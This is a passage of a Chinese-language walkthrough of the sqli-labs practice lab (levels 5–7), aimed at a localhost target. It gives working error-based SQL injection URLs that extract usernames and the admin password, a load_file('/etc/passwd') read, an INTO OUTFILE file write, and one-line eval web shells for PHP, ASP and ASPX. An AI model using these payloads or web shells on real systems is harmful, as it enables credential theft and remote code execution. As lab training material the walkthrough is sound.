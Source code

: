 ```sql
http://127.0.0.1/sql1/Less-5/?id=1' union select 1,count(*),concat((select username from users limit 0,1),floor(rand(18)*2)) as a from security.users  group by a --+
```

用户名获取后再查密码

```sql
http://127.0.0.1/sql1/Less-5/?id=1' union select 1,count(*),concat((select password from users  where username='admin'),floor(rand(11)*2)) as a from users group by a --+
```

![](https://cdn-zhiji-icu.oss-cn-hangzhou.aliyuncs.com/2021/sql1-p5-9.png)

获取成功

### Sqli-labs-Less-6

Pass-6和Pass-5的基本思路一样，把第五关中的单引号换成双引号就行了。

双查询参考链接

[https://www.cnblogs.com/laoxiajiadeyun/p/10278512.html](https://www.cnblogs.com/laoxiajiadeyun/p/10278512.html)

[https://www.cnblogs.com/laoxiajiadeyun/p/10283251.html](https://www.cnblogs.com/laoxiajiadeyun/p/10283251.html)

## 文件导入注入

### Sqli-labs-Less-7

本关的标题是 dump into outfile,意思是本关我们利用文件导入的方式进行注入

知识点

load_file()函数读文件操作
`select load_file('/etc/passwd')`
into outfile写文件操作
`select '<?php phpinfo();?>' into outfile 'c:\wwwroot\1.php'`

一句话木马

```php
#php的一句话
<?php @eval($_POST['ckcadmin']);?> 
#asp的一句话
<%eval request ("ckcadmin")%> 
#aspx的一句话
<%@ Page Language="ckcadmin"%> <%eval(Request.Item["ckcadmin"],"unsafe");%>
```

payload

```sql
?id=1')) and 1=2--+
```
